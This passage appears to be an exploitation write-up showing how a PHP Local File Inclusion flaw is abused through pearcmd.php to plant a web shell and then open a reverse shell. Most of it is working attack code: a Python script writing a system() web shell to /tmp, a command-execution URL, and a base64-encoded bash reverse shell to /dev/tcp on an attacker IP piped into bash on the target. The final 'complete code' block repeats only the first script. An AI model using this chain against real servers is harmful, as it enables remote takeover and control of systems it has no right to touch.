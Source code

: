 ```python
import http.client
import urllib

host = "192.168.1.202"
port = 8080
conn = http.client.HTTPConnection(host, port)

# Create console 
cmd_shell = "<?=die(system($_GET['cmd']))?>"
conn.request("GET", f"/index.php?+config-create+/&file=/usr/local/lib/php/pearcmd.php&/{cmd_shell}+/tmp/h4ndsh.php")
conn.close()
```

URL: `http://192.168.1.202:8080/index.php?file=/tmp/h4ndsh.php&cmd=id`

![id](id_cmd.png)

# Reverse Shell

In a scenario where a server allows the injection of Unix commands, such as through vulnerabilities like Local File Inclusion (LFI) or Remote Code Execution (RCE), it becomes possible to send a specific command to establish a reverse shell. A reverse shell is a connection initiated from the compromised server to the attacker's machine, providing the attacker with control over the server. To achieve this, I modified a previously used Python3 script to inject a command that opens a reverse shell on their own computer. For ease of use, the reverse shell command is encoded in base64, with the IP address "192.168.1.110" and port "2030" specified as the connection destination.

```bash
echo 'bash -c "sh -i >& /dev/tcp/192.168.1.110/2030 0>&1"' | base64 -w 0
``` 

Add the new code to the existing code, replacing `<base64>` with the set of characters generated by the base64 command.

```python3
# inject the command
conn = http.client.HTTPConnection(host, port)
cmd = urllib.parse.quote('<base64>')
conn.request("GET", f"/index.php?file=/tmp/h4ndsh.php&cmd=echo+{cmd}|base64+-d|bash")
conn.close()
```

This code only injects our console line into our `cmd` parameter created previously. Remembering that the file to which the commands are being written and interpreted is a PHP file, we have to add "echo cmd | base64 -d | bash" so that it can be decoded (-d) and executed.

The complete code would look like this:

```python3
import http.client
import urllib

host = "192.168.1.202"
port = 8080
conn = http.client.HTTPConnection(host, port)

# Create console 
cmd_shell = "<?=die(system($_GET['cmd']))?>"
conn.request("GET", f"/index.php?+config-create+/&file=/usr/local/lib/php/pearcmd.php&/{cmd_shell}+/tmp/h4ndsh.php")
conn.close()

```